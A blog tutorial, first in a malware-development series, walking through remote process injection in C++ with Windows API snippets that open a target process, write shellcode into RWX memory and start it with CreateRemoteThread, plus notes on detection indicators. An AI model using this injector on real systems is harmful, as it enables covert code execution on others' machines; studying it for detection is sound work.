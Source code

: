 ```yaml
---
title: Remote process injection
published: true
categories: [Malware dev, C++]
tags: [Malware dev, C++, Process injection]
author: Alejandro Rivera
pin: false
image:
  path: https://github.com/Krypteria/Offensive_CPP/assets/55555187/e7d5eef8-559c-4c02-b2a2-eeb0462fa334
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA

---
```


This is the first post of a few that I will be publishing related to malware development (or attempt to) in C++. This series of posts have no pretension, my main goal is to publish my progress in this area as a blog and use them to consolidate my knowledge, if they can also be useful to someone else, good ^^. With all this clarified, this first post will deal with the remote process injection technique.

Remote process injection is one of the oldest injection techniques in existence and although it is not extremely sophisticated (due to the fact that in the past there were no security measures as effective in detecting this type of technique as modern EDRs) it is a good place to start this series to gain knowledge that will be necessary in more complex techniques (as they say in my country, you should not start the house from the roof).

Let's start with the basics, what does the remote process injection technique consist of? 

This technique consists, roughly speaking, of hiding the execution of a set of instructions within a legitimate process, trying to make the execution as unnoticed as possible. For example, let's take the following images:

![sus_binary](https://github.com/Krypteria/Offensive_CPP/assets/55555187/ee424e68-7e58-4271-98d7-e762eb07c417)

In this image we can see a custom binary that opens a cmd.exe process which in turn runs a conhost.exe. At first glance it looks quite suspicious. Now let's look at the next image:

![less_sus_binary](https://github.com/Krypteria/Offensive_CPP/assets/55555187/dd4cec98-eb55-4c3c-b270-7134b4ee8655)

While it is true that we have the same scenario, (a binary running cmd.exe and in turn conhost.exe), this time it is not an ordinary binary, it is an operating system binary, which could raise doubts about its legitimacy.

Now that we have seen the potential of this technique, let's see how we can program it in C++ and what is the logic behind it.

Let's start, the first thing we have to do is to obtain a Handle of the process we want to use. A Handle of a process is nothing more than an identifier that allows us to interact with it, you can see it as the descriptor of a file if we were working with files. 

To obtain this Handle I will make use of the [OpenProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) function of the Windows API (it is vital to familiarise ourselves with the official Windows documentation as we will spend many hours reading it).

```c++
DWORD pid = atoi(argv[1]);

HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, pid);

if (hProcess == NULL){
    printf("%s Cannot get the handle to the process\n", err);
    return EXIT_FAILURE;
}

printf("%s Handle to the process obtained\n", ok);
```

Once we have obtained the Handle, we can start interacting with the process :). 

The next step is to allocate memory in the remote process to host our payload there. To do this, we will use the [VirtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) function of the Windows API, another alternative could be the **NtAllocateVirtualMemory** function of the **Undocumented Windows API**. The choice of which function to use in the end will depend on the needs we have.

```c++
unsigned char shellcode[]="Your epic shellcode here";

LPVOID bAddress = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

if(bAddress == NULL){
    printf("%s Cannot allocate memory for the shellcode\n", err);
    return EXIT_FAILURE;
}

printf("%s Memory allocated succesfully at %p\n", ok, bAddress);
```

The VirtualAllocEx function returns a pointer to the beginning of the memory space we have reserved. We will use this pointer to tell the [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) function where we want to write the contents of the shellcode variable. 

```c++
if(WriteProcessMemory(hProcess, bAddress, shellcode, sizeof(shellcode), NULL) == 0){
    printf("%s Cannot write on memory, error %s\n", err, GetLastError());
    return EXIT_FAILURE;
}

printf("%s Memory written succesfully\n", ok);
```

Once we have the shellcode content written in the process memory, the only thing we need to do to execute it is simply to create a Thread that starts its execution at the memory address where the shellcode is hosted. To do this, we will again use the pointer to the memory address returned by VirtualAllocEx and the Handle obtained by OpenProcess in the [CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread) function.

```c++
HANDLE hRemote = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)bAddress, NULL, 0, NULL);

if(hRemote == NULL){
    printf("%s Cannot get the handle to the remote process\n", err);
    return EXIT_FAILURE;
}

printf("%s Remote thread executed succesfully\n", ok);

CloseHandle(hRemote);
CloseHandle(hProcess);

return EXIT_SUCCESS;
```

Once we have completed these steps, we compile the program and we will have an executable capable of performing this technique. The complete code can be found in the [Offensive CPP](https://github.com/Krypteria/Offensive_CPP) repository on my Github

Let's see what the execution of the complete code looks like:
![remote_process_injection](https://github.com/Krypteria/Offensive_CPP/assets/55555187/b9ff587f-b3e8-419b-bcbe-272d2a5b1895)

As you can see in the image, we have managed to inject the shellcode in the process notepad.exe, if we go to the memory address reserved by VirtualAllocEx we can observe several things

- The memory space has been reserved as type **Private: Commit**
- The memory space has **RWX permissions**
- The shellcode has been written correctly ( as a payload created by msfvenom, it is obfuscated).

These three observations already show us some of the problems of this technique in terms of evading modern security measures. Just with what we have discussed in the previous paragraph we can already extract the following IOCs (Indicators of Compromise):

- Memory allocation using win32 API calls
- Creation of a Thread that points to a private memory space
- Private memory space with execution permissions

There are many more IOCs you can find in this post by [Mitre](https://attack.mitre.org/techniques/T1055/)

With all of this, it is fundamental to understand this technique for future sophistications or more advanced techniques that I will publish :)
